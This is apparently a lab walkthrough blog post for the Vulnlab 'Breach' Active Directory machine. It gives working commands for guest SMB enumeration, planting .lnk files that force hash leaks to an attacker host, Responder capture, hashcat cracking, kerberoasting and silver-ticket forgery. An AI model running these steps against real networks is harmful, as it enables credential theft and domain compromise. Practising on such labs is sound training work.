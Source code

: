 +++
title = '[Vulnlab] Breach'
date = 2024-10-21T10:25:48+02:00
tags = ['pentesting', 'kerberoasting', 'silver ticket']
draft = false
+++

![Proof](/images/vulnlab_breach/banner.png)

# Walkthrough

## 1. Enumeration
Testing Null sessions, and guest sessions reveals a Working guest session.
```bash
nxc smb "$DC_IP" -u 'a' -p '' --shares
```
![Shares](/images/vulnlab_breach/shares.png)
We have access to three shares:
* IPC$
* share
* Users

A guest session also lets us enumerate all users
```bash
nxc smb "$DC_IP" -u 'a' -p '' --rid-brute | tee u
grep SidTypeUser u | cut -d '\' -f2 | cut -d ' ' -f1 | tee users.txt
```

![Users](/images/vulnlab_breach/usernames.png)

### 1a. Placing shortcut files on SMB shares to grab NTLMv2 hashes
Mounting the shares for quick access, by putting the sharenames into 'list.txt':
```
cat list.txt
Admin$
C$
IPC$
NETLOGON
share
SYSVOL
Users
```

```bash
while read SHARE; do mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username=guest,password=''; done < list.txt
mount -t cifs
```

![mounted](/images/vulnlab_breach/mounted.png)

Listing the share with 
```
tree -a
```
reveals no credentials. However, it does show a lot of `.lnk` files, which reminds us to Google for shortcut files, which leads to a [Post](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/living-off-the-land#shortcut-files-scf-lnk-url) from Hacker recipies.

Shortcut files can be placed in a SMB Share. If anyone uses a file explorer to view the files, we can grab their NTLMv2 Hash.

If there was a host with SMB singing off, this could be relayed for a SMB Session.
Since there is only one target, it's only feasible to use `Responder` and crack the hash.

First generate one malicious file with `ntlm_theft.py` in all the shares we have write access:

```bash
# Create one malicious file
nxc smb "$DC_IP" -u 'guest' -p '' -M slinky -o SERVER="$ATTACKER_IP" NAME="@Q4Bonus"
# Copy that file to all folders
find . -writable -exec cp /root/shares/share/@Q4Bonus.lnk {} \;
```

This put the file in all these shares
```bash
find . -name '@Q4Bonus.lnk'
./Users/Public/@Q4Bonus.lnk
./Users/Public/AccountPictures/@Q4Bonus.lnk
./Users/Public/Documents/@Q4Bonus.lnk
./Users/Public/Downloads/@Q4Bonus.lnk
./Users/Public/Libraries/@Q4Bonus.lnk
./Users/Public/Music/@Q4Bonus.lnk
./Users/Public/Pictures/@Q4Bonus.lnk
./Users/Public/Videos/@Q4Bonus.lnk
./@Q4Bonus.lnk
./share/@Q4Bonus.lnk
./share/finance/@Q4Bonus.lnk
./share/software/@Q4Bonus.lnk
./share/transfer/@Q4Bonus.lnk
```

After starting Responder, immediately some Hashes occur:

```bash
Responder -I tun0
```
![Responder](/images/vulnlab_breach/Responder.png)

## 2. Julia Wong

Cracking the hash with hashcat and the `rockyou.txt` wordlist reveals the password `C*******1`
```bash
hashcat -m 5600 hash.txt /opt/rockyout.txt
```
Julia has more access to shares:
![julia_shares](/images/vulnlab_breach/julia_shares.png)

Which get remounted with the following command.
```bash
while read SHARE; do umount "$SHARE"; mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username="$USER",password="$PASSWORD"; done < list.txt
```

The user flag can be found in 
```
./share/transfer/julia.wong/local.txt
```

<!-- ### 2a. Bloodhound
Gathering Bloodhound data with `rusthound`:
```bash
rusthound -d "$DOMAIN" -u "$USER"@"$DOMAIN" -p "$PASSWORD" --zip --adcs --old-bloodhound  
```

Reveals no interesting information immediatly... -->


### 2a. Kerberoastable accounts
The following command uses kerberoasting to get hashes from 
Accounts with SPN enabled.
```bash
GetUserSPNs.py -outputfile Kerberoastables.txt -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"
```

![getuserspn](/images/vulnlab_breach/getuserspn.png)

The from the command we can read the SPN:
```bash
MSSQLSvc/breachdc.breach.vl:1433
```


Using 
```bash
hashcat -m 13100 Kerberoastables.txt /opt/rockyou.txt
```

This gives the user `svc_mssql` with the password `T******1`

## 3. Svc_mssql -> Silver ticket
Armed with the NTLM-hash of the `svc_mssql` user, it is possible to create a [silver ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

This effectively allows an attacker to impersonate any user on the server.

The command is:
1. Get the DOMAIN-SID with 
```bash
lookupsid.py -hashes :"$NT_HASH" "$DOMAIN"/"$USER"@"$DC_HOST" 0
```
2. Forge a silver ticket
```bash
ticketer.py -nthash "$NT_HASH" -domain-sid "$DOMAIN_SID" -domain "$DOMAIN" -spn MSSQLSvc/breachdc.breach.vl:1433 administrator
```
3. Authenticate with silver ticket
```bash
export KRB5CCNAME="$(pwd)/Administrator.ccache"
mssqlclient.py -k "$DC_HOST"."$DOMAIN"  
```
![mssqlclient](/images/vulnlab_breach/mssqlclient.png)

The Root flag can be then accessed via the mssqlclient:
```sql
SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS Contents
```